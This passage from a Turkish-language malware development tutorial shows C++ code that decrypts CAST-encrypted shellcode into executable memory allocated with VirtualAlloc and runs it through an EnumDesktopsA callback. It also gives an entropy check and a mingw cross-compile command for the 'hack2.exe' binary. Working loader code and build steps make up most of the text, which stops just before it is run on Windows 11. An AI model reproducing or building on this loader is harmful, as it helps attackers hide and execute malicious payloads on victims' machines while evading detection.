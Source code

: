 ```bash
python3 entropy.py -f hack.exe
```

![kriptografi](./images/131/2024-07-28_17-07.png){width="80%"}      

Payload'ımız `.text` bölümünde.

### pratik örnek 2

Basit mantığımızı güncelleyelim, sadece tüm payload şifre çözme ve çalıştırma işlemini değiştirerek shellcode'u şu şekilde şifre çözüp çalıştırın:    

```cpp
void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int 
shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // allocate a single block for execution
  mem_block = VirtualAlloc(NULL, shellcode_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  // execute the shellcode using EnumDesktopsA
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, 
  (LPARAM)NULL); 
}
```

### demo 2

Hadi ikinci versiyonu çalışırken görelim. Derleyelim (`linux` makinemde):     

```bash
x86_64-w64-mingw32-gcc -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

![cryptography](./images/131/2024-07-28_17-11.png){width="80%"}      

Ardından, bu versiyonu `Windows 11 x64` üzerinde çalıştırın:     
